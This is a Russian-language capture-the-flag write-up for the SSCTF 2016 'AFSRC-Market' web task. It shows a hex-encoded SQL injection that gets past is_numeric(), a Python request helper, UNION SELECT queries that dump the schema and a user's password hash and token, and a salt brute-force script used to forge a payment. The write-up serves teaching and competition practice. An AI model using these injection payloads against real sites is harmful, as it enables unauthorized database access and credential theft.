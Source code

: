 SSCTF 2016 quals Write-up
=====
AFSRC-Market (Web, 500p)
---

![alt-text][main_page]

Просмотрев главную страницу становится понятно, что форма поиска не функционирует.
При попытке добавить какой-либо товар в корзину появляетя просьба войти на сайт, и
происходит редирект на страницу входа.
При нажатии на сами товары проиcходит переход по ссылке `https://security.alipay.com/`.

![alt-text][alert_msg]

![alt-text][login_page]

На странице входа требуется ввести логин, пароль и капчу. Попытки использовать различные
служебные символы не приводят к неожиданному поведению сайта.
Перейдем к странице регистрации.

![alt-text][register_page]

Попробуем зарегистрировать нового пользователя.

![alt-text][reg_success]

![alt-text][try_login]

Видим сообщение об успешной регистрации, после которого нас перенаправляют на страницу входа. Пытаемся зайти и... Успех!

![alt-text][login_success]

В шапке сайта появились ссылки на профиль пользователя и кнопка выхода. Форма поиска, как и раньше, не функционирует.
Заметим, что после авторизации, в cookie было добавлено единственное значение PHPSESSID - идентификатор сессии в PHP.
Теперь при попытке добавить товар в корзину осуществляется переход по ссылке вида
`http://edb24e7c.seclover.com/add_cart.php?id=XXX` где вместо `XXX` - какой-нибудь номер.
После этого окрывается домашняя страница, и больше ничего не происходит.
При попытке вставить в параметр `id` различные числа всегда появляется сообщение об успешном добавлении;
при вводе символов, не являющихся цифрами, выдается сообщение об ошибке. Также допустим ввод следующего типа: `id=0x123456`.
Это говорит о том, что параметр `id`, скорее всего, проверяетя перед вставкой в запрос с помощью PHP функции `is_numeric()`.

![alt-text][user_page]

Теперь рассмотрим страницу пользователя. В шапке сайта появляеся ссылка `AddMoney` на
`http://edb24e7c.seclover.com/addmoney.php`, при переходе по которой выводится сообщение.
Также имеются 3 переключаемые вкладки: `Description`, `Additional Information`, `MyInfo`.
Первые две вкладки не так интересны, т.к. скорее всего являются статическими, а третья содержит форму
для добавления денег. Попробуем отправить форму и получим сообщение об ошибке. Также внимание привлекает
строка `The Last cost: 0`. Попробуем выяснить, откуда взялось значение `0`.
После небольшого исследования становится ясно, что при каждом запросе `/add_cart.php?id=XXX`, при указании верного числа в `id`, `The Last cost` принимает случайное ненулевое значение. Если `id=0x123456` или другому случайномуй hex, то значение обнуляется.
Итак, значение `The Last cost` каким-то образом зависит от параметра `id`, изменяемом при добавлении товара. Как уже было сказано, скорее всего значение параметра `id` проверяется с помощью функции `is_numeric()`, которая пропускя hex, пробует совершить простую "is_numeric bypass" sql-инъекцию через параметр `id`. Для генерации hex-значений воспользуемся `python3`
```python
>>> hex(int.from_bytes(b'1 AND 1=2 ; -- ', 'big'))
'0x3120414e4420313d32203b202d2d20'
```

![alt-text][try_simple_inj]

![alt-text][simple_inj_result]

Как видно на скрине, значение стало пустым. Для удобства исследования напишем функцию на Python, которая будет
отправлять нужный запрос и получать новое значение со страницы пользователя.

```python
import requests
import re


URL = 'http://edb24e7c.seclover.com/'
regexp = r'<p>The Last cost: (.*?)</p>'
cookies = {'PHPSESSID': 'ckf3pes604sgtr3vpp3lrc62t4'}


def sql(query):
    hexed = hex(int.from_bytes(query.encode(), 'big'))
    requests.get(URL + '/add_cart.php', params={'id': hexed}, cookies=cookies)
    result = requests.get(URL + '/userinfo.php', cookies=cookies).text
    match_obj = re.search(regexp, result)
    if match_obj:
        return match_obj.group(1)

```

После чего приступим к запросам:

```python
>>> sql('1')
'1103'
>>> sql('1 AND 1=1 GROUP BY 1 ; -- ')
'4024'
>>> sql('1 AND 1=1 GROUP BY 2 ; -- ')
'7939'
>>> sql('1 AND 1=1 GROUP BY 3 ; -- ')
'501'
>>> sql('1 AND 1=1 GROUP BY 4 ; -- ')
'2059'
>>> sql('1 AND 1=1 GROUP BY 5 ; -- ')
'0'
>>> sql('1 AND 1=2 UNION SELECT "first", "second", "third", "fourth" ; -- ')
'third'
```

Итак, мы выяснили, что результатом запроса должна быть строка из четырех элементов, причем мы можем смотреть значение третьего элемента. Продолжим извлечение данных из базы.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, database(), 4 ; -- ')
'web05'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="web05"), 4 ; -- ')
'flag,user,user_goods'
```

Видим очень интересное название таблицы - `flag`.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="flag"), 4 ; -- ')
'id,flag'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT COUNT(*) FROM flag), 4 ; -- ')
'1'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id, ",", flag) FROM flag), 4 ; -- ')
'1,Tips:/2112jb1njIUIJ__tr_R/tips.txt'
```

Попробуем перейти на `/2112jb1njIUIJ__tr_R/tips.txt`.

> tips:
>
> 1、Congratulations for you !You finished 80%,Come on continue!
>
> 2、token=md5(md5(username)+salt) salt max lenght is 5(hexs)
>
> 3、Add the Money Get the Flag

Во второй подсказке говорится о каком-то токене. А чтобы получить флаг, нужно пополнить счет.
Вернемся к форме пополнение денег и посмотрим исходный код формы.

![alt-text][form_source]

Видим, что в форме есть скрытый параметр `salt`. Осталось его подобрать, но для этого необходим `token`.
Вернемся к базе данных и посмотрим, какие данные хранятся в таблице пользователей.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="user"), 4 ; -- ')
'id,username,password,token,scores'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id,",",username,",",password,",",token,",",scores) FROM user WHERE username="a1ex01234"), 4 ; -- ')
'1086,a1ex01234,a1412c40bab245f4a17b675263cae6f7,d77716fc244dcdd08b5de5a82375e437,0'
```

Итак, мы получили `token`, который генерируется для каждого пользователя. Воспользовшись второй подсказкой подберем подходящую соль. Для этого опять воспользуемся `python3`, где для перебора будет полезна библиотека `itertools`.

```python
import itertools
from hashlib import md5


username = b'a1ex01234'
hex_char = '0123456789abcdef'
token = 'd77716fc244dcdd08b5de5a82375e437'

for salt in itertools.product(hex_char, repeat=5):
    salt = ''.join(salt)
    hash_val = md5(md5(username).hexdigest().encode() + salt.encode()).hexdigest()
    if hash_val == token:
        print('Salt =', salt)
        break
```

Запустим скрипт и увидим результат: `Salt = 8b76d`. Добавим его в форму пополнения счета.

![alt-text][flag_is]

Получаем флаг!

[main_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Главная страница"
[alert_msg]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Предупреждение"
[login_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Страница входа"
[register_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Страница регистрации"
[reg_success]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Успешная регистрация"
[try_login]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Попытка войти"
[login_success]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Вход прошел успешно"
[user_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Страница пользователя"
[try_simple_inj]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Попытка вставить простую sql-инъекцию"
[simple_inj_result]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Результат sql-иъекции"
[form_source]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Исходный код формы пополнения счета"
[flag_is]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Флаг"
